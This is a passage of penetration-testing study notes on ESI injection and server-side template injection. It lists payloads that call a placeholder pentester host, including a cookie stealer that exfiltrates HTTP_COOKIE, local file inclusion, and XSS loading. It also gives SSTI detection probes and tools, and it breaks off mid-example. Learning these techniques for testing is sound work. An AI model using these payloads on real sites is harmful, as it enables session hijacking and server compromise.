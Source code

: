     ```html
    // Basic detection
    <esi: include src=http://<PENTESTER IP>>

    // XSS Exploitation Example
    <esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

    // Cookie Stealer (bypass httpOnly flag)
    <esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

    // Introduce private local files (Not LFI per se)
    <esi:include src="supersecret.txt">

    // Valid for Akamai, sends debug information in the response
    <esi:debug/>
    ```
  
  * RCE can be achieved if app processing ESI directives supports XLST (dynamic language used to transform XML files); in that case, we can pass ```dca=xlst``` to payload

## SSTI

* Templates - used as intermediary format to create dynamic web content; template engines read tokenized strings from template documents, and produce rendered strings with values in output document

* Server-Side Template Injection (SSTI) - injecting malicious template directives inside a template

* SSTI vuln can be identified by injecting different tags in inputs to check if they're evaluated in response; sometimes we don't see injected data reflected in response, it could be blind (evaluated on a different page)

* Example SSTI payloads:

  ```html
  {7*7}
  ${7*7}
  #{7*7}
  %{7*7}
  {{7*7}}
  // we can check for 49 in response
  ```

* We can also inject combinations of special characters like ```${{<%[%'"}}%\``` used in template expressions; if an exception is caused, this indicates some control

* Based on type of working payload, it is possible to identify the underlying template engine; we can also check for verbose errors containing keywords or common extensions used

* Tools like [```tplmap```](https://github.com/epinna/tplmap), [```SSTImap```](https://github.com/vladko312/SSTImap) or J2EE scan (Burp Pro) can be used to test for SSTI vulns or create a payload list

* SSTI exploitation example 1:

  * For given webapp, we can start by trying SSTI payloads - the payload ```{{7*7}}``` is evaluated and we get 49 in response

  * Based on which payload works, we can use [the SSTI template engine decision tree](https://portswigger.net/web-security/server-side-template-injection) to find the underlying template engine
